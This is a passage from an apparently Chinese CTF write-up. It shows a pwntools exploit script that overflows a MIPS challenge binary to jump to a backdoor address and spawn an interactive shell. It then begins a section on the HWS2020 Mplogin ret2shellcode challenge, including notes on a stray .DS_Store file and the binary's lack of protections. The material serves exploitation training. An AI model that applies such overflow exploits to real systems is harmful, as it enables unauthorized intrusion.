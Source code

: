 ```plain
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context.arch='mips'
context.os='linux'
context.log_level = 'debug'

p = process(["qemu-mipsel","-L","/usr/mipsel-linux-gnu/","./pwn"])
#p = process(["qemu-mipsel","-L","/usr/mipsel-linux-gnu/","-g","1234","./pwn"])
elf = ELF("./pwn")
ru('what is mips?\n')
backdoor=0x0400844
pl="a"*0x44+p32(backdoor)
sl(pl)
itr()
```

## HWS2020 Mplogin (ret2shellcode)

### 思路

一开始做这个题目的时候有些小问题，就是我按照习惯把文件名改成了 pwn，然后再第一步一直没有办法泄露栈地址，后来意识到附件里面还有一个.DS\_Store 文件

[![](assets/1705903019-734032823c7de8d907e243dece03a600.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192350-6293ba08-b786-1.png)  
这个文件是 macOS 系统用来存储特定文件夹的自定义显示设置和元数据的文件，所以应该是这个文件对栈空间有些影响，所以我们直接把整个文件夹的内容复制过去，然后正常做题就可以

[![](assets/1705903019-6e89a6f37ab31445bb4897e7615b9282.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192356-6666942a-b786-1.png)  
什么保护都没有

[![](assets/1705903019-3a94994d6afa95ac8a8912428e3d85a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192404-6aded3aa-b786-1.png)
